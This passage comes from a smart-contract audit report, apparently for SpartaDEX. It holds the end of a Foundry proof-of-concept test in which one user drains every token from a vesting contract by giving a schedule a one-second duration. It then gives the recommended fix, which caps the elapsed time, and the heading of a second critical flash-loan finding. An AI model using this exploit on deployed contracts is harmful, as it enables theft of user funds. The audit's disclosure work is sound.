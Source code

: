 ```solidity

        vm.warp(block.timestamp + 1 days);

        // Amelie vests 10k tokens
        vm.startPrank(amelie);
        token.mint(amelie, 10_000e18);
        token.approve(address(vesting), 10_000e18);
        vesting.addVesting(amelie, block.timestamp, 1, 10_000e18);

        assertEq(token.balanceOf(address(vesting)), 110_000e18);

        vm.warp(block.timestamp + 11 seconds);

        uint256[] memory scheduleIds = new uint256[](1);
        scheduleIds[0] = 0;

        // amelie steals all the tokens in the contract
        vesting.claim(scheduleIds);

        assertEq(token.balanceOf(amelie), 110_000e18);

        assertEq(token.balanceOf(address(vesting)), 0);
    }
}

```

**Recommendation**

To fix this vulnerability, a check should be added to ensure the elapsed time does not exceed the vesting duration before calculating the vested amount. This can be done by adding a conditional statement to verify if `block.timestamp` is greater than `vestingSchedule.endTime`.

Here is an example of how this can be implemented:

```solidity
uint256 elapsedTime;
if (block.timestamp < vestingSchedule.endTime) {
    elapsedTime = block.timestamp - vestingSchedule.startTime;
} else {
    elapsedTime = vestingSchedule.endTime - vestingSchedule.startTime;
}

uint256 vestingDuration = vestingSchedule.endTime - vestingSchedule.startTime;
uint256 vestedAmount = (vestingSchedule.totalAmount * elapsedTime) / vestingDuration;
```

**Resolution:**

[Fixed](https://github.com/SpartaDEX/sdex-smart-contracts/commit/d2e6f796f33cd75b6d55b95216365644374e96f2)


### 2. `_getLPTokenPrice` can be manipulated through a flash loan  ![](https://img.shields.io/badge/-Critical-d10b0b)
